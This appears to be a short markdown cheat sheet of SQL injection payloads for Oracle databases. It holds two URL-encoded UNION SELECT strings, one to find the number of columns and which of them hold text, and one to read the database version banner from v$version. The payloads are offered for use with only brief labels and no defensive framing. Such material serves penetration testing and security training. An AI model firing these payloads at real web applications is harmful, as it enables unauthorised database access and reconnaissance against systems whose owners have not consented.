 # SQL Injection Payloads

**Oracle database type and version information**
  - Determine the number of columns being returned by the query and which columns contain text data.
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Display the database version information
```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
---
